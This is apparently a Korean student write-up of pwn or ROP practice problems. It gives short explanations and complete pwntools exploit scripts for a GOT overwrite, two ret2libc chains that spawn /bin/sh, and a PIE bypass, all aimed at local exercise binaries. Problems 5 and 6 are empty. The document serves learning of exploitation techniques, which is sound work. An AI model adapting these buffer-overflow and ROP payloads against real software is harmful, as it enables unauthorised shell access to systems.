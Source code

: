 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다. 가젯의 주소를 찾기 위해서 pie를 우회해야 하는데, libc의 offset을 이용하여서 가젯의 실제 주소도 찾을 수 잇다. 이후 가젯과 binsh, system_addr를 사용하여 payload를 작성하면 된다.

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')
libc = e.libc
rop = ROP(e)

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]
pop_rdi = libc_base + (rop.find_gadget(['pop rdi', 'ret']))[0]

log.info("libc base : %s"%hex(libc_base))
log.info("system addr : %s"%hex(system_addr))
log.info("pop rdi: %s"%hex(pop_rdi))


payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()

```




## problem 3-2

마찬가지로 ROP 문제이다. puts를 이용하여 puts 함수의 실제 주소를 구하고, 이를 바탕으로 system과 '/bin/sh'의 주소를 구한다. payload에 main함수의 주소를 추가하여 다시 반복하게 한 뒤에 pop_rdi, binsh, system_addr를 보내면 쉘을 얻을 수 있다.

```python

from pwn import *

p = process("./rop2")
e = ELF("./rop2")
libc = e.libc

puts_plt = 0x401060
puts_got = 0x404018
pop_rdi = 0x401283
main = 0x4011cf

p.recvuntil(b'buf:')

payload = b'A'*1024
payload += b'B'*0x8

payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.sendline(payload)

puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

log.info("libc base : %s"%hex(libc_base))


payload = b'A'*1024
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()


```



## problem 4

pie를 우회하는 문제이다. main addr에서 main의 offset을 빼서 pie base를 구한 뒤 win의 실제 주소를 구하고 그것을 ret에 덮어쓰면 된다.


```python

from pwn import *

p = process('./simple_pie_32')
e = ELF('./simple_pie_32')
libc = e.libc

p.recvuntil(b'at: 0x')
main_addr = int(p.recvline(), 16)
pie_base = main_addr - 0x122d
win_addr = pie_base + 0x1291

payload = b'A'*0x1c
payload += b'A'*0x4
payload += p32(win_addr)


p.sendline(payload)

p.interactive()

```



## problem 5






## problem 6






